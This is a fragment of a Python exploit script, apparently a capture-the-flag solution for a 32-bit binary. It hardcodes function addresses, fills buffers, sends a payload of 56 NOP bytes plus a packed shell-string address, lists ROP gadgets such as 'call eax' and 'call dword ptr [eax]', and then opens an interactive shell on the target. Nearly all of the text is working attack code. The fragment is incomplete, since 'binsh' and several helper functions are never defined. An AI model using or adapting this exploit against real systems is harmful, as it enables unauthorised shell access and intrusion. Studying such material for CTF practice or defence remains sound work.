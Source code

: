 ```
	
	#header("Fill fin")
	#print(buf)

def io_isCrash(io):
	buf = io.poll(False)
	
	if(buf == None):
		io_q(io)
		return 0
	elif(buf != 0):
		return 1
	else:
		return 0
	
header("P0")

# main	08048B3D	
main = 0x08048B3D
#banner	0804B060	
banner = 0x0804B060

target = 4

fin = 0

io = io_beg()
io_rdy(io)
io_fill(io,20)

io_s(io,target, "\x90"*56 + str(p32(binsh)))

# 0x08048e53 : call dword ptr [eax]
rop_call_at_eax = p32(0x08048e53)

"""
0x080485e0 : call eax
0x0804862d : call edx
0x08048b89 : cld ; ret
0x0804904f : inc ecx ; ret
"""


try:
	io_a(io,target+1)
except Exception, e:
	pass

io.interactive()
		
print("FIN")

"""
io_d(io, 10)
print(io_all(io, 0,9))
print(io_all(io, 11,19))
"""
```
